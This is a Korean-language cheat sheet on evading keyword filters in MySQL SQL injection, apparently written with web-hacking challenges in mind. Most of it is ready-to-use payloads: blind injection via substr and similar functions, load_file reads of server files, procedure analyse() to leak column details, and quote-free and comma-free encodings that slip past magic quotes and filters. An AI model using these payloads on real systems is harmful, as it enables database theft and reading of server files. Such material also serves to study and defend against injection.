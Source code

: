 3) Union 자체가 필터링 당했을경우
서브쿼리 혹은 substr, substring, left , right, lpad, rpad등을 이용해서 blind injection을 사용하자.
한가지 주위할점은 서브쿼리는 항상 ()로 둘러 쌓여야한다는것과 결과값이 항상 하나의 열만을 리턴해야된다는것! 웹해킹문제들에서도 자주 쓰이는 훼이크
 
4) Limit 필터
group by  + having을 쓰거나
group_concat 혹은 max, min 등의 보조함수를 쓰자. Limit은 상당히 많은 역할을 하는 키워드라 필터링 되면 짜증난다.
5) Group 필터
where 나 having문을 써서 특수한 조건을 첨가하도록 만들어주자.
6) Having/Where 필터
이럴경우 substr, group_concat 등을 이용해 한문자씩 비교해어야 한다.
group_concat은 default로 앞에서부터 1024 chars만큼만 읽어 온다는것 주의!
7) Select 필터
이경우 상당히 난감하다. 하지만 FILE privilege가 있을경우 (root)
' and substr(load_file('file'),locate('DocumentRoot', (load_file('file')))+length('DocumentRoot'),10)='a
load_file/ outfile 등을 적절히 이용해서 읽을 수 있다. 일종의 블라인드 인젝션
혹은 컬럼 명을 알경우 / 추측하여
' and data is not null# 등과같이도 가능. 컬럼명을 모를때 procedure analyse()는 유용하다.
' procedure analyse()#. 유의할점은 procedure analyse는 현재 쿼리에서 사용되고 있는 column에 관한 정보만 뿌려준다는점
혹은 ifnull(nullif()), case when, if() 등을 적절히 이용해 참을 만들어 줄 수도 있다.
where name=' ' 이라고할때  '-0#은 참이라는 사실을 이용해
'-if(name='Admin',1,0)# 과 같이 사용가능.
-----------------------------------------------------------------------------
자이제 키워드 필터링이 되었을때 주로 내장 function들을 사용했다는것을 알수 있다 또한 ' ' 를 사용하는 문자열 까지도. 하지만 functino들 까지 필터링되고 매직쿼터가 켜져서 ' '를 사용하지 못할경우 어떻게 우회할 수 있을까
일단 문자열은
다음과 같이 가능하다
' and substr(data,1,1) = 'a'#
' and substr(data,1,1) = 0x61#
' and substr(data,1,1) = unhex(61)#
' and substr(data,1,1) = char(97)#
다 'a'로 변환된다.
얘내까지 막혔을경우
' and substr(data,1,1) = 'a'#
' and hex(substr(data,1,1)) = 61#
' and ascii(substr(data,1,1)) = 97#
' and ord(substr(data,1,1)) = 97#

이젠 숫자로 변환시켜 비교 한다.
또한 conv함수를 쓸수도 있다.
conv(10,10,36) = 'a'
또한 substr 대신
substring, mid 함수가 있다는 점도 유용하다.
 
',' 콤마까지 꼼꼼하게 막아놨다면 어떻게 할가
->    substr(data from 1 for 1 )
또 lpad, rpad, left, right(reverse함수와 같이) , insert 등을 쓸수있다.
 
locate, instr, position 또한 유용



